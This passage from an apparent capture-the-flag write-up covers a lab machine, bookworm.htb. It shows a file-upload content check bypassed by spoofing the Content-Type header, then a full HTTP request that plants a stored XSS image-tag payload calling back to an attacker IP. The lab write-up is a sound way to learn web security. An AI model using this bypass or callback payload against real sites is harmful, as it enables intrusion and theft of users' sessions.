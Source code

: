We can try uploading some basic Javascript files (since this was likely an XSS-based initial access). After some trial and error, I found that by changing the `Content-Type` header to `image/jpeg`, we can bypass the content check and upload whatever we want.&#x20;

<figure><img src="../../.gitbook/assets/image (968).png" alt=""><figcaption></figcaption></figure>

### Profile XSS --> Steal Page

After that initial recon, we can try to inject payloads into the notes of the bot's cart.

```http
POST /basket/2061/edit HTTP/1.1
Host: bookworm.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 79
Origin: http://bookworm.htb
Connection: close
Referer: http://bookworm.htb/basket
Cookie: session=eyJmbGFzaE1lc3NhZ2UiOnt9LCJ1c2VyIjp7ImlkIjoxNCwibmFtZSI6InRlc3QiLCJhdmF0YXIiOiIvc3RhdGljL2ltZy91c2VyLnBuZyJ9fQ==; session.sig=eNrnjBHPf1vWoX6kzmk2xB4dWdM
Upgrade-Insecure-Requests: 1

quantity=1&note=%3Cimg+src%3D%22http%3A%2F%2F10.10.14.34%2F%3Fbotcallback%22%3E
```

This payload works in getting a callback from the machine itself.&#x20;

<figure><img src="../../.gitbook/assets/image (931).png" alt=""><figcaption></figcaption></figure>
